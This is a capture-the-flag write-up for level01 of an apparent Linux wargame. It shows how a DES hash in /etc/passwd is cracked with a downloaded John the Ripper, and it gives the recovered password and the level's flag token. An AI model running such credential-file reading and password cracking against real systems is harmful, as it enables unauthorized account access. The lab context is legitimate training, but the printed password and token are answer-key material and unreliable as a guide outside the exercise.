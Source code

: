 ## level01 writeup

One of the first place we looked when entering the environment was the `/etc/passwd` file.
```shell
$ cat /etc/passwd
...
flag00:x:3000:3000::/home/flag/flag00:/bin/bash
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```
The flag01 user has a hash instead of an x. In this [site](https://www.oreilly.com/library/view/practical-unix-and/0596003234/ch04s03.html), we learned that before the `/etc/shadow` file, passwords \
were encrypted with the `crypto()` function and stored directly in `/etc/passwd`. \
It uses a 2 character based salt and produces a 11 character hash with the DES algorithm. In this case, the salt is **42** and the hash is **hDRfypTqqnw**.

From the video, we learned we can use [john the ripper](https://github.com/magnumripper/JohnTheRipper) to break passwords.
We know we can create directories and execute binaries from `/tmp` (looking at the permissions.) \
So we do:
```shell
$ mkdir /tmp/myfs
$ cd /tmp/myfs
$ # we download a precompiled binary of john the ripper
$ wget https://download.openwall.net/pub/projects/john/contrib/linux/historical/john-1.7.9-jumbo-5-Linux-x86-32.tar.gz
$ tar -xf john-1.7.9-jumbo-5-Linux-x86-32.tar.gz
$ cd john-1.7.9-jumbo5-Linux-x86-32/run
$ # executing john on the etc/passwd file gives us the password because it knows how to break DES
$ ./john /etc/passwd
...
abcdefg          (flag01)
...
$ su flag01
abcdefg

flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
